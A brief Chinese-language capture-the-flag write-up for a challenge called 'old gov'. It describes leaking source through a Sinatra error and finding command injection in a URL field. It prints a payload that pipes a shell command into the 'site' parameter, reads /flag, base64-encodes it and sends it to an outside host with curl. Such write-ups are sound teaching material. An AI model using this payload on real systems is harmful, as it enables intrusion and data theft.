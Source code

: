 # old gov

- 塞id[]=1之類的會噴error
    - sinatra error可以看到部分source code
    - 可以發現它會對id=18做處理
    - id=18是一個可以送URL的輸入框

- 測一下可以發Command Injection漏洞
    - Payload: `site=|curl kaibro.tw/$(cat /flag|base64);`

